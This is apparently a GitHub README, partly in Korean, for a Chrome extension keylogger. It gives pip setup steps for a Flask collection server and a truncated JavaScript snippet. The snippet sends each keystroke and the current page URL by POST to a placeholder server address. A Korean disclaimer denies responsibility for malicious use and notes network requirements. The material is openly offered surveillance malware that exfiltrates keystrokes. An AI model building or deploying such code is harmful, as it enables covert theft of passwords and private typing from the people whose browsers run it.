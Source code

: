 #  Keylogger Chrome Extensions 

### Python flask server

`pip install flask`

`pip install flask_cors`

`pip insatll pyopenssl`

[SSL 자체 인증 받는법](https://blog.miguelgrinberg.com/post/running-your-flask-application-over-https)


### Main js code

```js
  ...
  xhr.open('POST', 'https://youradress:8080/log');
  xhr.setRequestHeader('Content-Type', 'application/json;charset=UTF-8');
  xhr.send(JSON.stringify({
    key: event.key,
    window: window.location.href,
    ...
 ```
 # warning
 
 1.**악의적으로 사용할시 책임지지 않습니다.**
 
 2.네트워크를 동일한 네트워크를 사용해야 키 기록을 받을수 있습니다.
 
 3.서버에 한번 접속해야 작동합니다.
 
 
 
 
